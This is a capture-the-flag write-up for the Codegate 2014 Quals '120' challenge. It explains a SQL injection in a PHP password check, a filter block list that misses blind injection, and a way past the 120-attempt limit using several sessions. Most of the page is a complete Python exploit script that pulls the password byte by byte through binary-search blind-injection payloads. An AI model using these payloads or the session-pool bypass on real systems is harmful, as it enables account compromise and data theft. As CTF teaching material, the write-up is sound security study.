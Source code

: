 ```yaml
---
title: Codegate CTF Quals 2014 120 writeup
author: fqj
layout: post
permalink: /2014-02-25-codegate-ctf-quals-2014-120-writeup/
comments: true
categories:
  - CTF
  - writeup
---
```


## Analysis

### SQL Injection

There's an SQL injection at 

      $query = "select * from rms_120_pw where (ip='$_SERVER[REMOTE_ADDR]') and (password='$_POST[password]')";

and the keyword filter does NOT filter blind injection.

      if (eregi("replace|load|information|union|select|from|where|limit|offset|order|by|ip|\.|#|-|/|\*",$_POST['password'])){

so we can post password=
    
    ' or (CONDITION) and '1'='1
    
to test whether the CONDITION is true of fasle.

And we can use binary search to get every byte of password.

But there's ONE more limit. The retry time is only 120 times. But `log(26)*30 > 120`.

### By-pass 120 times limit

The retry is limited to 120 times by the following code.

    if ( !isset($_SESSION['cnt'])){
        $_SESSION['cnt']=0;
        $_SESSION['password']=RandomString();
        
        $query = "delete from rms_120_pw where ip='$_SERVER[REMOTE_ADDR]'";
        @mysql_query($query);
        
        $query = "insert into rms_120_pw values('$_SERVER[REMOTE_ADDR]',             '$_SESSION[password]')";
        @mysql_query($query);
    }
    
There's one way to bypass it.

We need to make serveral queries without any session to get multiple sessions. And each time we request, the password is reset to another random value, so only the password generated in the last query is acceptable. But the `$_SESSION['cnt']` is still 120 for previous sessions. We can get at most `120 * num_of_sessions` times to do binary search blind injection.

## Exploit Code

```python
#!/usr/bin/env python2
import requests


ss = []

session_pool = [
        requests.session(),
        requests.session(),
        requests.session(),
        requests.session(),
        requests.session(),
        requests.session(),
        requests.session(),
        requests.session(),
        ]

counter = [
        1,
        1,
        1,
        1,
        1,
        1,
        1,
        1,
        ]

s = session_pool[0]
id = 0


for sss in session_pool:
    assert sss.post('http://58.229.183.24/5a520b6b783866fd93f9dcdaf753af08/',
                data={
                    'password': "' OR LENGTH(password) = 30 AND '1'= '1"
                    }
                ).text == u'True'




for i in range(1, 31):
    l = 97
    r = 122
    j = (l + r) / 2
    while True:
        print i, l, r, j, id, counter[id]
        res = s.post('http://58.229.183.24/5a520b6b783866fd93f9dcdaf753af08/',
                data={
                    'password': "' OR ASCII(SUBSTRING(password, %d, 1)) >= %d AND '1'= '1" % (i, j)
                    }
                ).text
        counter[id] += 1
        if counter[id] > 100:
            id += 1
            s = session_pool[id]
        if 'True' in res:
            l = j
            j = (l + r) / 2
            if r == l + 1:
                res2 = s.post('http://58.229.183.24/5a520b6b783866fd93f9dcdaf753af08/',
                        data={
                            'password': "' OR ASCII(SUBSTRING(password, %d, 1)) = %d AND '1'= '1" % (i, j)
                            }
                        ).text
                counter[id] += 1
                if counter[id] > 100:
                    id += 1
                    s = session_pool[id]

                if 'True' in res2:
                    print j
                    ss.append(j)
                    break
                else:
                    print j + 1
                    ss.append(j + 1)
                    break
            elif l == r:
                print l
                ss.append(l)
                break
        else:
            r = j - 1
            j = (l + r) / 2

print ''.join(map(chr, ss))


print s.post('http://58.229.183.24/5a520b6b783866fd93f9dcdaf753af08/auth.php',
        data={
            'password': ''.join(map(chr, ss))
            }
        ).text
```

